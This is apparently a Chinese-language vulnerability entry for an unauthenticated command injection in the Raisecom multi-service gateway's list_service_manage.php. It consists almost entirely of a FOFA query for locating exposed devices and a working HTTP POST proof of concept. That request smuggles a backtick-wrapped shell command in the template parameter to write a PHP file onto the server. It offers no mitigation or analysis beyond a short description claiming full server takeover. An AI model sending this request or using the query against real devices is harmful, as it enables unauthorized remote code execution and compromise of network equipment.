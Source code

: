 # 瑞斯康达多业务智能网关list_service_manage.php存在未授权命令注入漏洞

瑞斯康达-多业务智能网关 list_service_manage.php 存在远程命令执行漏洞，未经身份验证的远程攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## fofa

```yaml
body="/images/raisecom/back.gif" && title=="Web user login"
```

## poc

```java
POST /vpn/list_service_manage.php?template=%60echo+-e+%27%3C%3Fphp+phpinfo%28%29%3B%3F%3E%27%3E%2Fwww%2Ftmp%2Finfo29.php%60 HTTP/1.1
Host: 
Content-Length: 111
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

Nradius_submit=true
```

